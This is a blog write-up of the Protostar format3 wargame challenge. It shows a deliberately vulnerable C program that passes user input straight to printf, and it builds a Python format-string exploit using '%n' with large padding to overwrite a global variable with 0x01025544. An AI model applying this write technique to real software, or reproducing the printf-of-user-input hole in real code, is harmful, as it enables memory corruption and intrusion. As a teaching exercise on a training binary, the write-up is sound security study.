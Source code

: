 ```yaml
---
layout: post
title: "Writing Large Values to Specific Targets: protostar format3"
date: 2019-9-10
---
```

The challenge is not much different from the last, the only difference here is that the value we will write to the target is much larger.
{% highlight c%}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Once again, let's find the address of the target.
![format3-1](/assets/format3-1.png)
Unsurprisingly, this is at 0x80496f4. So we at least have that out of the way. 

The next thing we should do is try changing its value.
![format3-2](/assets/format3-2.png)
Ok, so there is works the same way as before. But now we need to make the value equal 0x01025544.
![format3-3](/assets/format3-3.png)
As one can see, it looks like we can't get the value of target to equal something as big as it needs to be. After a certain amount, the value just turns to 0. 

How then do we deal with this?

The link below basically does what I am trying to do, so it can show us the way.
https://null-byte.wonderhowto.com/how-to/exploit-development-write-specific-values-memory-with-format-string-exploitation-0182112/

Writing scripts is useful. We should begin writing an exploit script, because we are going to to be dealing with a lot of numbers.
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
This is just doing what we were typing previously. 

The target is put in first then 11 bytes along the stack, we are at the spot we are dumbing our data.
![format3-4](/assets/format3-4.png)
Same result as before, at least this proves our program is doing as we should.

Now we need to find out how much the value junk is going to be. I think a good way to start this, since this is roughly the amount we are increasing our target by, would be with the value we want, 0x01025544.

This will be switched out of hex for the format specifier. I am going to use python to convert hex to decimal. I will also subtract our value by 0x4b, the number the target is equal to when we run this without our junk value.
![format3-5](/assets/format3-5.png)
This is what we will try using as my format specifier. 
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%16930041x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
Note that running this will take more time than any of the exploits up to this point. Have patience. Maybe go get some tea while it's running.

Running this, it doesn't quite become our value, it is one below. 
![format3-6](/assets/format3-6.png)
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%16930042x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
We increase the format specifier by 1.

And wait a whole 2 minutes.
[format3-7](/assets/format3-7.png)
Well, we did it. As for why subtracting 4b gave us a number off by one, I should have realized that likely since we put one into the number initially there, 4b is the amount stored plus one, input by our "%x", which has an implied 1.
The base number is likely 4a.

This challenge, I personally found difficult, but fun. It's good when you have to do a bit of digging, playing with a debugger and reading information. 
![aesthetic1](/assets/aesthetic1.jpg)
Anyways, time for some rest.